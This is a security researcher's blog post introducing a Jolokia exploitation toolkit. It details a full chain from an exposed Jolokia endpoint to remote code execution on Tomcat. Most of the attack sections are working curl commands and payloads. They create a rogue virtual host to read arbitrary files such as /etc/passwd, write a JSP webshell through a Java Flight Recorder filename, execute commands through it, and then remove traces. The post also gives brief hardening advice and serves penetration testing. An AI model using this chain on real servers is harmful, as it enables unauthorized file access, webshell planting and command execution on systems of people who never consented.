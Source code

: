 ```yaml
---
author: "Laluka"
title: "Get shells with JET, the Jolokia Exploitation Toolkit"
slug: "shells_with_jolokia_exploitation_toolkit"
date: 2021-10-29
description: "I spent too much time hacking on Jolokia, so here's an exploitation toolkit, it provides file read, write, rmi injection, information disclosure, and much more. Enjoy!"
---
```


> TL;DR: I'm finally releasing [JET](https://github.com/laluka/jolokia-exploitation-toolkit), a [Jolokia Exploitation Toolkit](https://github.com/laluka/jolokia-exploitation-toolkit)! \
> To introduct this tool & repo, I'll explain in detail how to get code execution with jolokia and Tomcat/Catalina Mbeans! :)


## Oops, I did it again.

<img class="img_full" src="first-time.png" alt="first-time">


I spent too much time on Jolokia, this is a fact. Now, I want you to be able to get shells as well, and I also would like the community to contribute to this project so `no jolokia can never ever survive to its pentester again`. 

If you want to follow along: 

```bash
docker run --rm -it --net=host --name jolokia bodsch/docker-jolokia
git clone https://github.com/laluka/jolokia-exploitation-toolkit
```

## Step 1: Parse /jolokia/list

The first thing one should do while fighting a jolokia dragon, is parse its listed MBeans. Luckily (duh), JET got you covered!

```bash
python jolokia-parser.py http://127.0.0.1:8080/jolokia | tee jolokia-list.log
```

<img class="img_full" src="jolokia-parser.png" alt="jolokia-parser">


## Step 1.1: Get some information (optional)

As many properties can be read through jolokia, it's always a good starting point to get information, absolute paths, java versions, sometimes secrets, etc. 

```bash
cat jolokia-list.log | grep /read/ | wc -l
# 2865 // Almost 3K urls giving juicy info, yum!
mkdir dump && cd dump
for url in $(cat ../jolokia-list.log | grep /read/); do echo "$url"; curl -skO "$url" ; done
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/ImplementationName
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/MBeanServerId     
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/ImplementationVersion
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/SpecificationVersion
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/SpecificationVendor
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/SpecificationName
# http://127.0.0.1:8080/jolokia/read/JMImplementation:type=MBeanServerDelegate/ImplementationVendor
# http://127.0.0.1:8080/jolokia/read/jdk.management.jfr:type=FlightRecorder/EventTypes
# http://127.0.0.1:8080/jolokia/read/jdk.management.jfr:type=FlightRecorder/Recordings
# http://127.0.0.1:8080/jolokia/read/jdk.management.jfr:type=FlightRecorder/Configurations
# http://127.0.0.1:8080/jolokia/read/jdk.management.jfr:type=FlightRecorder/ObjectName
# http://127.0.0.1:8080/jolokia/read/java.util.logging:type=Logging/LoggerNames 
```

Good candidates are the following: 

```bash
curl -sk 'http://127.0.0.1:8080/jolokia/read/java.lang:type=Runtime/BootClassPath' | jq .
curl -sk 'http://127.0.0.1:8080/jolokia/read/java.lang:type=Runtime/ClassPath' | jq .
curl -sk 'http://127.0.0.1:8080/jolokia/read/java.lang:type=Runtime/InputArguments' | jq .
curl -sk 'http://127.0.0.1:8080/jolokia/read/java.lang:type=Runtime/LibraryPath' | jq .
curl -sk 'http://127.0.0.1:8080/jolokia/read/java.lang:type=Runtime/SystemProperties' | jq .
```

<img class="img_full" src="properties.png" alt="properties">


## Step 2: Abuse Tomcat/Catalina Vhost features

One really cool thing I like about jolokia exploitation, is that many people try to find bugs, or exploit logback, but... It's like `JMX`, it has `FEATURES`, so `USE THEM`! :)

<img class="img_full" src="expose-your-jmx.png" alt="expose-your-jmx">

> - Side note here. Jolokia `is` a bridge that allows you to reach [Mbeans](https://thinkloveshare.com/hacking/ssrf_to_rce_with_jolokia_and_mbeans/) (like JMX features) through HTTP. 
> - They explain in [their documentation](https://jolokia.org/reference/html/agents.html#agent-war-security) that jolokia should not be publicly exposed. 
> - No disclosure has been done whatsoever as it's not a bug, it's just `feature`. They are already doing their part, just read the doc...

What one can do here is use the Tomcat management MBean to deploy a new vhost, and WOOSH!

```bash
grep createStandardHost jolokia-list.log
# http://127.0.0.1:8080/jolokia/exec/Catalina:type=MBeanFactory/createStandardHost/$java.lang.String/$java.lang.String/$java.lang.String/$boolean/$boolean/$boolean/$boolean
curl -skg 'http://127.0.0.1:8080/jolokia/exec/Catalina:type=MBeanFactory/createStandardHost/Catalina:type=Host,host=dummy.com/dummy.com/!//true/true/true/true' | jq .
```

<img class="img_full" src="deploy-vhost.png" alt="deploy-vhost">

Okay, WTF happened? \
We just deployed a new Virtual Host named `dummy.com`, starting from the root `/` of the server. \
What this really means, is that every 2nd level directory has been deployed on this Vhost. This implies MANY things. 

- We can now read anything!
- We can execute jsp already existing everywhere on the server
- The vhost is our "attacker key". As long as it stays secret, it's not """exposed"""
- We can reach world writable directories such as `/tmp` or `/dev/shm`

```bash
curl -skg 'http://127.0.0.1:8080/etc/passwd' -H 'Host: dummy.com'
```

<img class="img_full" src="file-read.png" alt="file-read">

Scary right? But wait, there's more!!


## Step 3: File write with Java Flight Recorder (JFR)

One Mbean that is really often present in the JFR Mbean. It offerts the collection of information about the request processed by the JVM, the JVM itself, the server, etc. 

One small quirk is that its extension isn't enforced, so one can trigger a Java Flight Record, and write it as a... `foobar.jsp` file. That the JVM will happily process and execute!

But what is in the JFR? How much garbage? Can we control enough content? \
Well, this was a long part of the research: How to acquire a reliable file write. 

There are probably many ways to achieve this, but the one I found is the following: \
Before starting the Flight Record itself, the name of the flight record is stored within the JVM. This implies that it will then be part of the JFR. \
Sooooo, if we're able to create a filename.jsp that is as well as webshell, and doesn't contain any `/` `"` `'` or other bad char breaking out attack we're good to go!

Long story short, here's one working payload, it's not the most elegant, but it sure worked many times! :)

```bash
PAYLOAD_AND_JSPFILE=$(python2 -c "import sys, urllib as ul; print ul.quote(sys.argv[1])" '<%=Runtime.getRuntime().exec(request.getParameter(String.valueOf(42))).getInputStream()%>.jsp')
echo "$PAYLOAD_AND_JSPFILE"
# %3C%25%3DRuntime.getRuntime%28%29.exec%28request.getParameter%28String.valueOf%2842%29%29%29.getInputStream%28%29%25%3E.jsp
```

Then we use our often-present Mbean `DiagnosticCommand/jfrStart` to write our webshell in `/tmp/`. \
Here, the duration can be adjusted to have a small enough dump so the JVM can compile the jsp (minimize the garbage overhead), but long enough so the filename can be placed in the JFR.

```bash
curl -skg 'http://127.0.0.1:8080/jolokia/exec/com.sun.management:type=DiagnosticCommand/jfrStart/filename=!/tmp!/'"$PAYLOAD_AND_JSPFILE"',path-to-gc-roots=true,duration=3s'
```


## Step 4: Enjoy our RCE \o/

```bash
curl -skg 'http://127.0.0.1:8080/tmp/'"$PAYLOAD_AND_JSPFILE"'?42=curl%20127.0.0.1/rce' -H 'Host: dummy.com'
```

<img class="img_full" src="rce.png" alt="rce">

> This webshell doesn't print the command output in the response, but the webshell can easily be modified to do so! \
> Might be cool to make it your first contribution! Right? 🌸


## Step 5: Clean yo shit!

This is to me the cutest part. It's dead-simple to clean your mess afterward!

1. Thanks to your shell, you can remove all the files you wrote
1. Thanks to the MBean features, you can stop and destroy `your` vhost (be `very careful` here)

```bash
python jolokia-parser.py http://127.0.0.1:8080/jolokia | grep -P 'dummy.com.*Host/(stop|destroy)'
# http://127.0.0.1:8080/jolokia/exec/Catalina:host=dummy.com,type=Host/destroy
# http://127.0.0.1:8080/jolokia/exec/Catalina:host=dummy.com,type=Host/stop
curl -skg 'http://127.0.0.1:8080/jolokia/exec/Catalina:host=dummy.com,type=Host/stop'
curl -skg 'http://127.0.0.1:8080/jolokia/exec/Catalina:host=dummy.com,type=Host/destroy'
# And voilà!
```

<img class="img_full" src="clean-yo-shit.png" alt="clean-yo-shit">


## Step 6: Bonus!

Hey, did you notice? \
Every step we went through only uses GET requests! \
This means that a single SSRF can be enough to reach and exploit an internal jolokia endpoint!! \
This also means that as a dev, you should:

- Always add authentication
- Make sure that no SSRF is present on the application/server
- Use it only if you `really` (`really` `really` `really`) need it


## Last words

- Use [JET - Jolokia Exploitation Toolkit](https://github.com/laluka/jolokia-exploitation-toolkit)
- This specific exploit is sumed'up [here](https://github.com/laluka/jolokia-exploitation-toolkit/blob/main/exploits/file-write-to-rce-vhost-jfr.md) 
- Feel free to contribute! There are so many ways to break jolokia, what's yours?
- If you used this tool and don't have time to push code but have ideas, come say hi! [@TheLaluka](https://twitter.com/TheLaluka)

If you read that far and are still interested, another exploit (part of [JET](https://github.com/laluka/jolokia-exploitation-toolkit)) is explained [here](https://therealcoiffeur.github.io/c11011) by a friend [@Coiffeur0x90](https://twitter.com/Coiffeur0x90), have a look! ;)
